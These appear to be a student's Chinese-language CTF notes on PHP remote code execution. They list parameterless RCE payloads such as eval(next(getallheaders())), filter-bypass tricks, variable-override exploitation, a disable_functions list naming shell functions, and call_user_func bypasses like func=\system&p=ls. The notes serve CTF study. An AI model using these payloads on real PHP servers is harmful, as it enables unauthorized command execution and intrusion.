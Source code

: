 RCE

[TOC]

![1695642819728](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1695642819728.png)

[RCE漏洞基础及CTF绕过_长度限制为7的rce绕过-CSDN博客](https://blog.csdn.net/qq_61988806/article/details/135002019?ops_request_misc=&request_id=&biz_id=102&utm_term=[NISACTF 2022]middlerce&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-3-135002019.142^v100^pc_search_result_base1&spm=1018.2226.3001.4187)

csdn上有，收藏

#### [HUBUCTF 2022 新生赛]HowToGetShell已解决

一道rce题

使用xor绕过，就是把命令转换为字符（通过异或）。有脚本。

##### 取反，请求头

就是绕过嘛，用取反

取反脚本在ctf_tools里面

![1699538174455](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1699538174455.png)

![1699538203948](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1699538203948.png)

### 无参RCE

 //无参REC的标志之一

preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {

[无参数RCE绕过的详细总结（六种方法）_无参数的取反rce-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/133808536)

简而言之，无参数rce就是不使用参数，而只使用一个个函数最终达到目的。

```
eval(hex2bin(session_id(session_start())));
 
print_r(current(get_defined_vars()));&b=phpinfo();
 
eval(next(getallheaders()));
 
var_dump(getenv(phpinfo()));
 
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
 
print_r(scandir(next(scandir(getcwd()))));//查看上一级目录的文件
```

![1699538241187](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1699538241187.png)

![1699538256131](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1699538256131.png)

相关网址：[[鹏城杯 2022\]简单的php - 无数字字母RCE+取反【*】 (element-ui.cn)](http://element-ui.cn/article/show-1964995.html?action=onClick)

#### 变量覆盖

[[MoeCTF 2022\]ezphp | NSSCTF](https://www.nssctf.cn/problem/3348)

```
?b=flag&flag=b
重点在
foreach ($_GET as $key => $value) {
$$key = $$value;
}
1.$b=$flag
2.$flag=$b
```

[CTF——PHP审计——变量覆盖_foreach($_get as $key => $value)-CSDN博客](https://blog.csdn.net/vhkjhwbs/article/details/100061332?ops_request_misc=&request_id=&biz_id=102&utm_term=变量覆盖 ctf&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-100061332.142^v96^pc_search_result_base1&spm=1018.2226.3001.4187)

###### disable_function:

```
"exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents","unserialize","serialize"
```

system(“find / -name flag”)：查找所有文件名匹配flag的文件



######  call_user_func($func, $p)

假如像system等函数被禁掉，

func=\system&p=ls

func=\system&p=find+/+-name+flag*//找到所有包含flag的文件

这样的也可以

###### RCE大全

https://xz.aliyun.com/t/8107?time__1311=n4%2BxuDgDBDyGD%3DDOFD%2FD0ioQL3ZW3sb4D&alichlgref=https%3A%2F%2Flink.csdn.net%2F%3Ftarget%3Dhttps%253A%252F%252Fxz.aliyun.com%252Ft%252F8107#toc-3

